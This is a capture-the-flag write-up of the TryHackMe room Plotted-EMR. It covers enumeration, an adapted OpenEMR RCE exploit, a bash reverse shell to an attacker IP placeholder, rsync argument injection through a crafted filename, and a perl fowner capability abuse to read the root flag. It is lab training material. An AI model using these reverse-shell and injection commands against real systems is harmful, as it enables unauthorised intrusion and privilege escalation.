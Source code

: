 # 📝 Writeup – Plotted-EMR (TryHackMe)

---

## TL;DR
Found an exposed web app with OpenEMR site creation + a tuned public exploit to get RCE as `www-data`, abused a cron/rsync job to spawn a `plot_admin` shell, then leveraged a file capability (`fowner` on `perl`) to chmod `/root/root.txt` and read the root flag. Nice mix of app, filesystem and capability abuse.

---

## ENUMERATION
Start with the usual scan:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Focused scan (what I used):

```bash
nmap -p21,22,80,5900,8890 -sC -sV -vv -oN scan.nmap <IP>
```

Screenshot:
![nmap](screenshots/plot_scan.png)

---

### PORT 21 — FTP

Anonymous FTP allowed. I browsed the dirs and found a hint file telling me to check admin — keep that in your head for later.

```bash
ftp <IP>
# anonymous login
ls -la
get <file>
```

Screenshots:
![ftp](screenshots/plot_ftp.png)
![ftp](screenshots/plot_hint.png)

---

### PORT 80 — web & dirbusting

Dirbusting (`ffuf`) found `/admin`, `/shadow`, `/passwd` — each contained base64 blobs. One pointed at a YouTube hint (no direct exploit there). Use ffuf:

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP>/FUZZ
```

Screenshots:
![ffuf1](screenshots/plot_ffuf1.png)
![b64](screenshots/plot_b64.png)

---

### PORT 5900 — MySQL (odd port)

A MySQL instance was accepting `admin` with no password. It had DB access — useful later to make a site that OpenEMR will use.

```bash
mysql -P5900 -h <IP> -u admin
# SHOW DATABASES; USE mydb; SHOW TABLES; SELECT * FROM users;
```

Screenshot:     
![mysql](screenshots/plot_mysql.png)

---

### PORT 8890 — OpenEMR portal

Found `/portal` → OpenEMR login and an `/portal/admin.php` using ffuf (which shows the OpenEMR version). There’s a known RCE for that version but it requires a logged-in site user. Good news: there's an option to add new site, we have DB access to create the site for ourselves.
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP>/portal/FUZZ -e .php,.html
```    
I:

* Created a new site id (`test2`) via admin.php → Config Site (using the DB I had access to).
* Logged in to the new site (`test2`).
* Took the public PoC (searchsploit) and fixed a couple of strings — mostly the site-specific URL and base64 handling — then ran it with a reverse-shell payload.

Screenshots:
![ffuf2](screenshots/plot_ffuf2.png)
![admin.php](screenshots/plot_admin.png)
![searchsploit](screenshots/plot_searchsploit.png)
![fix](screenshots/plot_fix1.png)
![fix](screenshots/plot_fix2.png)

Exploit/Reverse shell steps:

```bash
# on attacker:
nc -nvlp <PORT>

# exploit command:
bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'
```

This gave me a `www-data` shell.

---

## EXPLOITATION — www-data → plot_admin (rsync trick)

First flag was in the webroot(/var/www). While poking around I found a cron job in `/etc/crontab` that runs an `rsync -t * plot_admin@127.0.0.1:~/backup` from `/var/www/html/portal/config`. Important notes:

* `rsync -t *` passes all filenames(excluding hidden) in current directory to `rsync`.
* `rsync` accepts `-e <program>` to specify the remote-shell connection program(default ssh). If one of the filenames starts with `-e`, it will be interpreted as an option by `rsync`. We can abuse this by creating a file whose name looks like `-e sh shell.sh` so that `rsync` treats `-e` as its option, `sh` as the remote-shell program with `shell.sh` as its argument. So `shell.sh` ends up being executed locally by that shell — classic argument-injection via filename.
* `sh shell.sh` runs the interpreter sh and gives it shell.sh as the script argument. Because you invoked the interpreter explicitly, you don’t need a shebang(!#/usr/sh) in shell.sh. You also don’t need `chmod +x` — the interpreter will read the file even if it’s not executable.      

Steps I used (run as `www-data` in `/var/www/html/portal/config` — adjust paths if needed):

```bash
# create the malicious filename (the leading -- prevents touch from treating it as option)
touch -- '-e sh shell.sh'
# create the payload (use double quotes outside, single inside to avoid shell break)
echo "bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'" > shell.sh
```

Start listener on attacker and wait for cron/rsync to run and trigger the callback:

```bash
nc -nvlp <PORT>
# wait to receive connection
```

Once cron runs, rsync interprets the injected `-e` option and runs `sh shell.sh`, which executes our reverse shell and gives `plot_admin`.

Screenshot:     
![presc](screenshots/plot_presc.png)

---

## plot_admin → root (capabilities abuse)

`sudo -l` required password for common sudo; no suid binaries to exploit. I looked for file capabilities:

```bash
getcap -r / 2>/dev/null
```

I found `perl` with `fowner` capability (file ownership-related capability). `fowner` allows certain file operations normally requiring ownership; in practice we can use it to change file permissions of files we don't own (including root files). So we can chmod `/root/root.txt` to be readable.

Example (run as `plot_admin`):

```bash
# safe single-quote usage so shell doesn't expand anything
perl -e 'chmod 0777, "/root/root.txt";'
# then:
cat /root/root.txt
```

This prints the root flag.

Screenshots:      
![fowner](screenshots/plot_fowner.png)
![root](screenshots/plot_root.png)

---

## Commands recap (quick)

```bash
# nmap
nmap -p- --min-rate 2000 -vv -T4 <IP>
nmap -p21,22,80,5900,8890 -sC -sV -vv -oN scan.nmap <IP>

# ffuf
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP>/FUZZ -e .php,.html

# mysql
mysql -P5900 -h <IP> -u admin

# exploit OpenEMR (after fixing PoC)
python3 exploit.py "http://<IP>/portal" -u <username> -p <passwd> -c <command>

# on attacker
nc -nvlp <PORT>

# rsync trick (on box, from /var/www/html/portal/config)
touch -- '-e sh shell.sh'
echo "bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'" > shell.sh

# capability exploit (as plot_admin)
perl -e 'chmod 0777, "/root/root.txt";'
cat /root/root.txt
```

---

## References

* OpenEMR public PoCs (Exploit-DB / GitHub).
* rsync docs (`man rsync`) — `-e` option.
* [Linux capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities) overview & `getcap` usage.

---

## Wrap-up

Plotted-EMR gave a tasty chain: make a site, get RCE, abuse a scheduled rsync with clever filename injection, then leverage capabilities to grab root.

---
